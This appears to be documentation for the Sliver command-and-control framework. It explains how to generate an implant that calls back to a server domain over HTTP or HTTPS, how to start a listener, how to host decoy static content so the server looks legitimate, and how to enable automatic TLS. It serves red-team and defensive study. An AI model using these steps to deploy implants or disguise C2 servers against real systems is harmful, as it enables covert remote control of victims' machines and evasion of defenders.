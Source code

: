 Sliver supports proxy-aware C2 over both HTTP and HTTPS, however since Sliver does not rely upon the SSL/TLS layer for security these protocols are considered somewhat synonymous.

## Generate the Sliver (implant)
Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at example.com, run the following:

```
sliver > generate --http example.com

```

## Start the Listener 

```
sliver > http

```

## Static Content

Sliver can stand up a website on your HTTP(S) listener in order to make the server look more legitimate. For example, you could put a default IIS index page here and mimic a normal-looking server in case someone comes by snooping. You can manage static content using the `websites` command. 

```
websites --website index --web-path / --content ./index.html add
```


## SSL/TLS Certificates

The `http` listener also supports automatic TLS certificates via Let's Encrypt, which can be enabled using the `--lets-encrypt` flag.

```
sliver > http --domain example.com --lets-encrypt

```
